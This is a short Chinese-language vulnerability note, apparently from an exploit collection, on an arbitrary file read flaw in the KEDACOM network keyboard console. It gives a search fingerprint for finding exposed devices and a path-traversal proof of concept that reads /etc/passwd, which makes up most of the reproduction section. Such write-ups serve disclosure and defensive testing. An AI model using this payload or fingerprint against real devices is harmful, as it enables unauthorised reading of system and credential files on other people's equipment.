

# 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>KEDACOM 网络键盘控制台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"网络键盘控制台"</a-checkbox></br>

## 漏洞复现

登录页面



验证POC

```python
/../../../../../../../../etc/passwd
```

